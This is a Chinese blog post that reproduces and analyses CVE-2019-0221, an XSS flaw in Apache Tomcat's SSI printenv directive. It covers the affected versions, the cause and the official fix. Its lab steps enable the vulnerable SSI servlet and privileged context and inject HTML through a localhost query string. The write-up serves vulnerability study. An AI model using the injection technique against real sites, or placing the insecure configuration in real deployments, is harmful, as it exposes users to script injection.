

# CVE-2019-0221 Apache Tomcat XSS 漏洞复现与分析 - HsinTsao - 博客园

> 原文：[`www.cnblogs.com/HsinTsao/p/16202189.html`](https://www.cnblogs.com/HsinTsao/p/16202189.html)

# CVE-2019-0221 Apache Tomcat 9.0.0.M1 - Cross-Site Scripting (XSS) Vulnerability

Apache Tomcat 中的 SSI printenv 命令回显用户提供的数据而不转义，因此容易受到 XSS 攻击。默认情况下禁用 SSI。printenv 命令用于调试，不太可能出现在生产网站中。

### Detail

*   CVE: CVE-2019-0221
*   CVSS: 6.1
*   危险等级: 中等
*   影响范围: Apache Tomcat 9.0.0.M1 到 9.0.0.17、8.5.0 到 8.5.39 和 7.0.0 到 7.0.93

### 漏洞原因

服务器端包含(SSI)是一些 Web 服务器中使用的一种简单的脚本语言，用于实现包括文件、变量的值回显和显示有关文件的基本信息等功能。这些只是针对于 SSI 特定的环境变量，它们要么由用户设置，要么包含关于传入 HTTP 请求的信息。

这种简单的脚本命令中包括:`echo`指令打印出单个变量的值，而`printenv`指令打印出所有变量的值。这两个指令都输出 HTML。Apache Tomcat 对于使用`echo`指令时正确地转义了 XSS 值，但对于`printenv`指令则没有。因此，如果应用程序使用这个指令，攻击者可以注入恶意输入，从而导致 XSS。

### 漏洞复现

##### 0\. POC

1.  [`cn.0day.today/exploit/36546`](https://cn.0day.today/exploit/36546)

##### 1\. 前期准备

1.  必须在 Apache Tomcat 中启用 SSI 支持 - 全局或特定 Web 应用程序。默认情况下是禁用的。
2.  Web 应用程序中必须存在具有“printenv”SSI 指令的文件(通常为“.shtml”)。
3.  攻击者必须能够访问该文件。

##### 2\. 复现步骤

1.  修改`conf\context.xml`文件第 19 行，获得上下文权限。

    ```
    <Context privileged =“true”> 
    ```

2.  修改`conf\web.xml`, 开启 SSI Servlet。该段代码默认是被注释掉的, 删除注释即可。

    ```
    <servlet>
        <servlet-name>ssi</servlet-name>
        <servlet-class>
          org.apache.catalina.ssi.SSIServlet
        </servlet-class>
        <init-param>
          <param-name>buffered</param-name>
          <param-value>1</param-value>
        </init-param>
        <init-param>
          <param-name>debug</param-name>
          <param-value>0</param-value>
        </init-param>
        <init-param>
          <param-name>expires</param-name>
          <param-value>666</param-value>
        </init-param>
        <init-param>
          <param-name>isVirtualWebappRelative</param-name>
          <param-value>false</param-value>
        </init-param>
        <load-on-startup>4</load-on-startup>
    </servlet> 
    ```

    ```
    <servlet-mapping>
        <servlet-name>ssi</servlet-name>
        <url-pattern>*.shtml</url-pattern>
    </servlet-mapping> 
    ```

3.  在`webapp\ROOT` 目录下新建`ssi`目录, 并添加脚本`printenv.shtml`，内容如下:

    ```
    <html>
      <body>
        Echo: <!-- #echo var="QUERY_STRING_UNESCAPED" --> <br/> <br/>
        Printenv: <!-- #printenv -->
      </body>
    </html> 
    ```

4.  启动 tomcat

    ```
    > cd bin
    > ./startup.sh 
    ```

5.  访问这个网址, 发起 XSS 攻击，观察正确转义的"echo"指令和不能正确转义的"printenv"指令之间的区别
    [`localhost:8080/ssi/printEnv.shtml?%3Cbr/%3E%3Cbr/%3E%3Ch1%3EHello%20World%3C/h1%3E%3Cbr/%3E%3Cbr/%3E`](http://localhost:8080/ssi/printEnv.shtml?%3Cbr/%3E%3Cbr/%3E%3Ch1%3EHello%20World%3C/h1%3E%3Cbr/%3E%3Cbr/%3E)


### 官方修复



1.  漏洞函数: java/org/apache/catalina/ssi/SSIPrintenv.java
2.  官方修复: [`github.com/apache/tomcat/commit/15fcd166ea2c1bb79e8541b8e1a43da9c452ceea`](https://github.com/apache/tomcat/commit/15fcd166ea2c1bb79e8541b8e1a43da9c452ceea)

by HsinTsao